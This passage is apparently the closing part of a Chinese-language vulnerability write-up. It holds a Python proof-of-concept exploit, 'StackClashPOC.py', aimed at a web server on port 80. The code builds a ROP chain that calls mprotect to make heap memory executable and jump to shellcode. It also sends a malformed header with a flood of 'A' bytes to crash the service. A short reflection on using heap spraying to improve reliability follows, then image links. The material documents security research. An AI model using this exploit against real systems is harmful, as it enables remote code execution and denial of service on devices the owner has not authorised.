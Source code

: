 ```python
    rop = b""
    rop += p32(0x0805212d) # pop ebx ; pop esi ; pop edi ; pop ebp ; ret
    rop += p32(0x0805d000) # ebx -> addr for mprotect
    rop += p32(0x90909090) # esi -> junk
    rop += p32(0x90909090) # edi -> junk
    rop += p32(0x90909090) # ebp -> junk
    rop += p32(0x0804fb48) # pop eax ; ret
    rop += p32(0x7d)       # eax -> mprotect systemcall
    rop += p32(0xffffe425) # pop edx ; pop ecx ; ret
    rop += p32(0x7)        # edx -> prot for mprotect
    rop += p32(0xe000)     # ecx -> len for mprotect
    rop += p32(0xffffe422) # int 0x80 ; pop ebp ; pop edx ; pop ecx ; ret
    rop += p32(0x90909090) # ebp -> junk
    rop += p32(0x90909090) # edx -> junk
    rop += p32(0x90909090) # ecx -> junk
    rop += p32(0x08061c28) # addr for shellcode in heap

    socketSend(s1, rop)

    # 4) Start ROP chain
    s2.close() # close socket 2 to return from the function of thread B and start ROP chain

def crash(ip):
    print("Crash...")
    s = makeSocket(ip, 80)
    socketSend(s, makeHeader(-1))
    socketSend(s, b'A' * 0x1000)
    s.close()
    time.sleep(2.5) # www takes up to 3 seconds to restart

if __name__ == "__main__":
    if len(sys.argv) == 2:
        crash(sys.argv[1])
        stackClash(sys.argv[1])
    else:
        print("Usage: ./StackClashPOC.py IP")
```

# 0x04 反思总结

1. 我这里使用静态的固定堆地址不太完美，可以尝试使用多个线程的header完成一种堆喷的操作。
2. 分析只是了解程序的攻击面，漏洞利用是细节的一方面，但漏洞挖掘才是真正的差异化、无解的生产力。

[1]: https://wx2.sinaimg.cn/large/ee2fecafly1g4tsndeooyj20km0b5wf3.jpg
[2]: https://wx3.sinaimg.cn/large/ee2fecafly1g4tsndoj2tj20o60a1q4m.jpg
[3]: https://wx3.sinaimg.cn/large/ee2fecafly1g4tsndz8r2j20o506o75d.jpg
[4]: https://wx3.sinaimg.cn/large/ee2fecafly1g4tsneaullj20pq0dk40z.jpg
[5]: https://wx4.sinaimg.cn/large/ee2fecafly1g4tsneora6j20pn0cfjtj.jpg
[6]: https://wx1.sinaimg.cn/large/ee2fecafly1g4tsnf5kk4j20l80b33z8.jpg
[7]: https://wx4.sinaimg.cn/large/ee2fecafly1g4tsnfifx7j211s0gctda.jpg
[8]: https://wx3.sinaimg.cn/large/ee2fecafly1g4tsnfu1u7j20ru0ghta8.jpg
[9]: https://wx3.sinaimg.cn/large/ee2fecafly1g4tsng4r69j20jk0x2dhe.jpg
[10]: https://wx4.sinaimg.cn/large/ee2fecafly1g4tsngf6nvj20k004y3ys.jpg
[11]: https://wx2.sinaimg.cn/large/ee2fecafly1g4tsngq46mj20no0ch752.jpg
[12]: https://wx1.sinaimg.cn/large/ee2fecafly1g4tsnh82qpj20mn0b2gn9.jpg
[13]: https://wx1.sinaimg.cn/large/ee2fecafly1g4tsnhjn6cj20ku091wg2.jpg